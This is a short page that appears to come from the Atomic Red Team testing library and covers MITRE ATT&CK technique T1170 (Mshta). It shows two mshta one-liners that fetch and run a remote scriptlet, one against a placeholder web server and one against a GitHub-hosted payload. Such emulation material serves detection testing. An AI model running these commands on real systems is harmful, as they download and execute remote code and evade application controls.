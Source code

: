 ## Mshta

MITRE ATT&CK Technique: [T1170](https://attack.mitre.org/wiki/Technique/T1170)

### Example Execution:

    mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))

## Test Script
    mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct").Exec();close();

[mshta.sct](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct)
